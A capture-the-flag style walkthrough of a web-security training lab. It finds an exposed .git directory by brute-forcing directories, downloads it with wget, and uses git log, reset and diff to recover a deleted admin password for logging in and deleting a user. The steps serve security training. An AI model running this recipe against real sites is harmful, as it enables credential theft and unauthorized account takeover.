 ### Information disclosure in version control history
<i>Please note that during the explanation my Lab ID will change, so there will be some discrepancy between the screen-shots and commands</i><br>
To follow the solution you will need to have installed:
+ wget
+ git CMD

#### Lab
The lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

First of all let's to brute-force the application directories structure. To do that we can use Intruder. Set up the position (1) in the request as follows (choose Sniper as attack). The placeholder (3) will be replace with the values of our payload 
<br>![img](./img/100.png)<br>

Then in the payload(1) set the type as Simple list (2) and add the values for the sub directories to test (3, <i>please note that here I have used a limited wordlist to speed up the process</i>). Be sure to uncheck the URL encoding characters option (4) before to execute the attack.
<br>![img](./img/101.png)<br>

After a while we can see that the <b>.git</b> has been found. 
<br>![img](./img/102.png)<br>

Just to recall this folder contains all information that is necessary for the project and all information relating commits. It also contains a log that stores the commit history. This log can help you to roll back to the desired version of the code. Very interesting, first we have open a git CMD, then we can proceed to downlad the whole folder using wget:
```
wget -r https://0aae000604fffb3fc15be60b0075004c.web-security-academy.net/.git
```
Now enter into the downloaded directory
```
cd 0aae000604fffb3fc15be60b0075004c.web-security-academy.net
```
then we can check git log
```
>git log
commit 382d921b56e84ec70bb7cab25e444e98d4c02350 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

commit 68eb0e4aabbe8db5654194dfc68db2f1430f4ee5
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Mon Jun 22 16:23:42 2020 +0000

    Add skeleton admin panel
```
We can see from the above command that the admin passord was removed from the config file. Now we can check the status 
```
>git status
On branch master
Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php

no changes added to commit (use "git add" and/or "git commit -a")
```
Here we can see that the changes have not yet been added to the staging area, we can try to revert the last commit using reset command, then check the status again
```
>git reset --soft HEAD~1

>git status
On branch master
Changes to be committed:
  (use "git restore --staged <file>..." to unstage)
        modified:   admin.conf

Changes not staged for commit:
  (use "git add/rm <file>..." to update what will be committed)
  (use "git restore <file>..." to discard changes in working directory)
        deleted:    admin.conf
        deleted:    admin_panel.php
```
Now we can see that there are pending modification in the admin.conf file, as suggested we can restore the original modification of the file issuing the following command
```
>git restore --staged admin.conf
>REM then we can use the diff command to get the deleted information in the admin.conf file
>git diff
diff --git a/admin.conf b/admin.conf
deleted file mode 100644
index 3ac915d..0000000
--- a/admin.conf
+++ /dev/null
@@ -1 +0,0 @@
-ADMIN_PASSWORD=jw8ut5ca18vqbmvg75ij
diff --git a/admin_panel.php b/admin_panel.php
deleted file mode 100644
index 8944e3b..0000000
--- a/admin_panel.php
+++ /dev/null
@@ -1 +0,0 @@
-<?php echo 'TODO: build an amazing admin panel, but remember to check the password!'; ?>
\ No newline at end of file
```
Knowing the administrator password we can proceed to login and delete carlos
#### References
+ https://githowto.com/git_internals_git_directory
